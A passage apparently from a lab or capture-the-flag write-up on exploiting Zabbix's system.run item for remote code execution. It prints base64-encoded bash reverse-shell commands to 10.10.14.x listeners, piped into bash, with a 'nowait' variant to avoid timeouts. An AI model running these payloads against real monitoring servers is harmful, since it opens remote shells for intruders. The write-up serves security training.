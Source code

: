 ```
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg
```

and the RCE parameter was:

```
system.run[echo  YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMSAgCg | base64 -d | bash]
```

set up a listener, click on test then get value:

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we get some type of timeout&#x20;

while looking through the documentation about how I could stabilize the shell or make a command that would create a new shell, we saw how the command system.run really works:

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

So if we have a timeout after waiting for the end of the execution, let's see with the `nowait` parameter

```
system.run[echo  YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg  | base64 -d | bash, nowait]
```
